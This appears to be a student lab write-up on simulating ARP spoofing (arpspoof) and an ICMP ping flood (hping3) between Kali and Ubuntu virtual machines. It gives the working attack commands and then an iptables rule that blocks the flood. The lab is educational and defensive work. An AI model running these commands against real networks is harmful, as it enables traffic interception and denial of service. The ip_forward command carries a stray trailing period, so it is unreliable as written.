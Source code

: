 #  Simulating Attacks and Defending Against Them

##  Objective
The goal of this project was to simulate **network attacks** such as ARP spoofing and ping floods in a virtual environment using Kali Linux as the attacker and Ubuntu as the defender, and then analyze **detection** and **mitigation techniques**.

## Tools Used
- **VirtualBox or VMware** – virtualization software  
- **Kali Linux** – attacker machine ([Download](https://www.kali.org))  
- **Ubuntu** – defender machine ([Download](https://ubuntu.com))  
- **Dsniff** – installed on Kali Linux (for `arpspoof`)  
- **Wireshark** – installed on Ubuntu (for packet analysis)  
- **hping3** – used for aggressive flooding attacks  

## Project Setup
1. Install **Kali Linux** and **Ubuntu** on VirtualBox (or VMware).  
2. Configure both systems to be on the **same network** (NAT or Host-Only).
   - Example IPs:  
     - Kali Linux (attacker): `192.168.1.10`  
     - Ubuntu (defender): `192.168.1.20`
    
3. Verify connectivity between machines:  
   ```bash
   ping 192.168.1.20   # from attacker to victim
   ping 192.168.1.10   # from victim to attacker
   ```

Note: Successful pings confirm communication.

##  Simulating Attacks

### 1. Enable IP Forwarding on Kali

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward.
```

Output `1` means IP forwarding is active.

### 2. Install and Use Dsniff (ARP Spoofing)

```bash
sudo apt update
sudo apt install dsniff
sudo arpspoof -i eth0 -t 192.168.1.20 192.168.1.1
```

This tricks the victim into sending traffic meant for the gateway (`192.168.1.1`) to the attacker.


### 3. Install and Use hping3 (Ping Flood Attack)

```bash
sudo apt install hping3
sudo hping3 -1 --flood -p 80 192.168.1.20
```


This sends an aggressive flood of ICMP packets to the victim system.

##  Defending Against the Attack

On the Ubuntu defender system, use **iptables** to block the attacker:

```bash
sudo iptables -A INPUT -s 192.168.1.10 -p icmp -j DROP
sudo iptables -L
```

This prevents ICMP packets from the attacker, stopping the flood.

##  Analysis

* The victim system stopped responding to ICMP packets after the firewall rule was applied.
* The attacker continued sending requests, but no replies were received.
* Wireshark confirmed that packets were being dropped.

##  Conclusion

This project demonstrated a **Man-in-the-Middle (MITM) attack** using ARP spoofing and a **ping flood (DoS attack)**, along with defensive measures using `iptables`.

### Key Takeaways:

* ARP spoofing can redirect traffic from victims to attackers.
* Flooding attacks can overwhelm systems with packets.
* Simple firewall rules can mitigate such threats.

### Best Practices to Prevent Attacks:

* Always use **encrypted connections (HTTPS)**.
* Use a **VPN** when connecting to public Wi-Fi.
* Deploy **intrusion detection systems (IDS/IPS)** to monitor unusual traffic.


